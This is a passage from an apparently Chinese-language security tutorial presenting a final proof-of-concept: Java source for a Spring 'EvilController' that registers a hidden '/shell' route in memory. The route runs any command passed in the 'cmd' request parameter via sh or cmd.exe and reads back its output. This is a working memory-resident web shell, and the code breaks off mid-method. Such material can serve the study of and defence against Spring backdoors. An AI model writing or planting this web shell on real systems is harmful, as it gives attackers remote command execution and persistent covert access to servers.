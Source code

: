 ## 0x03 最终实现 POC
这里的话我们演示能够适配版本更新的 `RequestMappingHandlerMapping`及其 registerMapping 方法进行注册
```java
package com.stoocea.Controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Method;
import java.util.Scanner;

@Controller
public class EvilController {

        @RequestMapping("/Evil")
    public void Spring_Controller() throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchMethodException {
        System.out.println("i am in");
        //获取当前上下文环境
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

        //手动注册Controller
        // 1. 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例
        RequestMappingHandlerMapping r = context.getBean(RequestMappingHandlerMapping.class);
        // 2. 通过反射获得自定义 controller 中唯一的 Method 对象
        Method method = Controller_Shell.class.getDeclaredMethod("shell", HttpServletRequest.class, HttpServletResponse.class);
        // 3. 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/shell");
        // 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 5. 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        r.registerMapping(info, new Controller_Shell(), method);

    }

    public class Controller_Shell{
        public void shell(HttpServletRequest request, HttpServletResponse response) throws IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
```
